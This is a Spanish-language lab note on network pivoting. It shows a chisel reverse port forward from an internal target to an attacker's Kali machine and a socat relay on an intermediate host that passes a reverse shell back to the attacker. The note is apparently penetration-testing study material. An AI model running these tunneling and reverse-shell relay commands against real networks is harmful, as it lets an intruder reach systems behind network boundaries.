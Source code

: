 [[Lab Pivoting and Tunneling - Synfonos]]
#pivoting 
Tendremos el siguiente escenario:
![[Pasted image 20240615202048.png]]

Chisel es una herramienta de pivoting compatible tanto con máquinas Windows como Linux. Nos permite de forma muy cómoda prácticamente obtener las mismas funciones que SSH (en el aspecto de Port Forwarding).

Tenemos un repositorio oficial para descargar la herramienta:
```bash
https://github.com/jpillora/chisel/releases
```

![[Pasted image 20240615202101.png]]

![[Pasted image 20240615202106.png]]

Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240615202118.png]]

![[Pasted image 20240615202122.png]]

Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240615202130.png]]

A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```

![[Pasted image 20240615202146.png]]

Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240615202153.png]]

Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
Y ahora ya podríamos efectuar cualquier ataque desde la máquina Kali y recibir la conexión desde la máquina final, pasando primero por el puerto 443 de la máquina ubuntu y luego enviando dicha conexión al puerto 443 de la máquina Kali.
